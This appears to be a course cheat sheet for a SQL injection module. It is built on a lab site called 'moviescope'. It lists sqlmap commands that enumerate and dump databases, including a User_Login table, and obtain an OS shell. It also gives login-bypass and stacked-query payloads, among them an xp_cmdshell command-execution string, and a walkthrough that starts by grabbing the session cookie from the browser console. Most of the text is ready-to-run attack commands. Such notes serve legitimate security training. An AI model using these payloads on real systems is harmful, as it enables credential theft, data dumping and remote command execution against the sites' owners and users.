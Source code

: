 # 15 - SQL Injection

## Module 15 - SQL Injection

* SQLMAP Extract DBS
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
* Extract Tables
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
* Extract Columns
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
* Dump Data
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
* OS Shell to execute commands
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
* Login bypass
  * `blah' or 1=1 --`
* Insert data into DB from login
  * `blah';insert into login values ('john','apple123');`
* Create database from login
  * `blah';create database mydatabase;`
* Execute cmd from login
  * `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`

### **Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap**

* Login a website
* Inspect element
* Dev tools-\&gt;Console: document.cookie
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" –dbs**
  * **-u: Specify the target URL**
  * **--cookie: Specify the HTTP cookie header value**
  * **--dbs: Enumerate DBMS databases**
* Get a list of databases
* Select a database to extract its tables
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –tables**
  * **-D: Specify the DBMS database to enumerate**
  * **--tables: Enumerate DBMS database tables**
* Get a list of tables
* Select a column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –T User\_Login --dump**
* Get table data of this column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" --os-shell**
* Get the OS Shell
* TASKLIST
